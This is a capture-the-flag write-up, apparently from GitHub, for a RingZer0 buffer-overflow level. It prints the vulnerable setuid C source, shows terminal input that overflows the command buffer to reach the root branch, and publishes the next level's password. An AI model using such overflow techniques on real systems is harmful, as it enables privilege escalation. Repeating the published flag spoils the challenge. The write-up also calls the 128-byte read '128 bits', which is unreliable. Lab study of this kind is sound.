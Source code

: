 # Performing BufferOverflow to find flag
## My Approach:

### Code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct USER {
        int id;
        char name[32];
        char pass[32];
} u = { 0, "nobody", "Ksdkjkk32avsh" };

int main(int argc, char **argv)
{
        char user[32];
        char pass[32];
        char command[64];
        char *shell[] = { command, 0 };
        char *p;

        printf("Username: ");
        fgets(user, 31, stdin);
        p = strchr(user, '\n');
        if (p)
                *p = '\0';
        if (strcmp(user, u.name))
                return 0;
        printf("Password: ");
        fgets(pass, 31, stdin);
        p = strchr(pass, '\n');
        if (p)
                *p = '\0';
        if (strcmp(pass, u.pass))
                return 0;
        printf("Command: ");
        if (fgets(command, 128, stdin) == NULL)
                return 0;
        p = strchr(command, '\n');
        if (p)
                *p = '\0';
        if (!strcmp(user, "root")) {
                printf("Good job!\n");
                printf("command: %s\n", command);
                setresuid(geteuid(), geteuid(), geteuid());
                execve(shell[0],shell,0);
        }
        else {
                printf("Okay Mr. %s. Dropping priviledges though.\n", user);
                setreuid(getuid(), getuid());
                execve(shell[0],shell,0);
        }
        return 0;
}
```

As we can see from the code, there is no usage of strcpy like the precious challenge. Then how do we exploit it? 

If we look closely, we can see that the code given declares an array of size 64 but while reading data into the array it reads 128 bits instead of 64. We can use this to our benefit to exploit this code.
The command execve can help us retrieve the password for the next level, the only question is how do we reach it?

The code has half of the solution for us, if we just follow the following we can reach the section where our desired command is taken in by the program:

```
level2@lxc-pwn-x86:/levels$ ./level2
Username: nobody
Password: Ksdkjkk32avsh
Command: /bin/bash
Okay Mr. nobody. Dropping privileges though.
level2@lxc-pwn-x86:/levels$
```

If we put try to overflow the command buffer we might be able to execute the command we want. I tried the following method to get an idea of how to go about it:
```
level2@lxc-pwn-x86:/levels$ ./level2
Username: nobody
Password: Ksdkjkk32avsh
Command: /bin/bash
Okay Mr. nobody. Dropping privileges though.
level2@lxc-pwn-x86:/levels$ ./level2
Username: nobody
Password: Ksdkjkk32avsh
Command: /bin/bash0rootrootrootrootrootrootrootrootrootrootrootrootrootrootrootrootrootrootrootrootrootroroot
Good job!
level2@lxc-pwn-x86:/levels$
```

We got the code to print 'Good Job' but it doesn't execute our command. At this point, I tried multiple things and wasn't sure how to head forward. Then I asked for a hint in the Discord groups for RingZer0.
Someone there suggested that /tmp folder is writeable for a reason. 

This gave me all the hints that I needed. I then wrote a script in the tmp folder, made it executable, and then ran the following command and got the password for the next level:

![Screenshot 2022-01-16 132947](https://user-images.githubusercontent.com/19536413/149678453-564d9e45-006b-4aed-a7b0-dd0126d05263.png)

We have found the password for the next level. 
## Password is: b130hOOfGftXUfmRZlgD

